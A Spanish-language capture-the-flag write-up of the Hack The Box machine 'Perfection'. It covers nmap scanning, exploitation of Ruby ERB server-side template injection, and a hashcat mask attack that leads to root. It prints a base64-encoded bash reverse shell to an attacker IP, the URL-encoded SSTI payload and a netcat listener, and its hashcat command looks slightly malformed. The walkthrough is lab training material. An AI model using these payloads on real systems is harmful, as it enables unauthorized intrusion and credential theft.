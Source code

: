 ```yaml
---
title: Perfection
description: Perfection es una máquina Linux de dificultad fácil que cuenta con una aplicación web con la funcionalidad de calcular las puntuaciones de los estudiantes. Esta aplicación es vulnerable a la Server-Side Template Injection (SSTI) a través de un bypass de filtro regex. Se puede obtener un acceso inicial explotando la vulnerabilidad SSTI. Al enumerar los usuarios se revela que son parte del grupo sudo. Una mayor enumeración descubre una base de datos con hashes de contraseñas, y el correo del usuario revela un posible formato de contraseña. Usando un ataque de máscara en el hash, se obtiene la contraseña del usuario, la cual se utiliza para obtener acceso root.
date: 2024-05-22
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-perfection/perfection_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - ssti
  - data leaks
  - password attacks
  - ssh
  - http
  - tcp
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/perfection:-$ sudo nmap -sC -sV 10.10.11.253 
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis

![](/assets/img/htb-writeup-perfection/perfection1.png)
![](/assets/img/htb-writeup-perfection/perfection2.png)
![](/assets/img/htb-writeup-perfection/perfection3.png)
![](/assets/img/htb-writeup-perfection/perfection4.png)

## Vulnerability Exploitation

Vulnerable a Server Side Template Injection.

<https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection##erb-ruby>

![](/assets/img/htb-writeup-perfection/perfection5.png)
![](/assets/img/htb-writeup-perfection/perfection6.png)
![](/assets/img/htb-writeup-perfection/perfection7.png)

Creo el payload en base64.

```terminal
-$ echo 'bash -c "bash -i >& /dev/tcp/10.10.16.65/4444 0>&1"' > payload.sh

-$ cat payload.sh | base64 | xclip -sel clip
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg==
```
El payload quedaria de la siguiente manera:

```
%0A<%25%3d+system("echo+'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg=='+|base64+-d+|bash")+%25>
```

```terminal
-$ nc -nlvp 4444
	lisening on [any] 4444 ...
```

Luego de ponerme en escucha con Netcat, envio la peticion 'POST'.

![](/assets/img/htb-writeup-perfection/perfection8.png)

```terminal
	...connect to [10.10.16.65] from (UNKNOWN) [10.10.11.253] 35964

$ python3 -c "import pty;pty.spawn('/bin/bash')"

susan@perfection:~$ cat user.txt
```

---
## Privilege Escalation

Enumerando el sistema, encuentro dos archivos importantes: 'pupilpath_credentials.db', que contiene un hash que parece corresponder a una contraseña, y un correo con instrucciones para establecer el formato de una nueva contraseña.

![](/assets/img/htb-writeup-perfection/perfection10.png)
![](/assets/img/htb-writeup-perfection/perfection11.png)

Con esta información, puedo reconstruir gran parte de la contraseña:

```text
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1.000.000.000}
   susan   _       nasus         _                    ?????????
```

Solo me restaría encontrar el número entre 1 y 1.000.000.000, lo cual es fácilmente descifrable conociendo el hash.

```terminal
/home/kali/Documents/htb/machines/perfection:-$ echo 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f' > hash

/home/kali/Documents/htb/machines/perfection:-$ hashcat -m 1400 -a hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d > password
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```
```terminal
/home/kali/Documents/htb/machines/perfection:-$ ssh susan@10.10.11.253
susan@10.10.11.253's password: susan_nasus_413759210 

susan@perfection:~$ sudo su
sudo password for susan: susan_nasus_413759210 

root@perfection:/home/susan## cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/590" target="_blank">Perfection Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }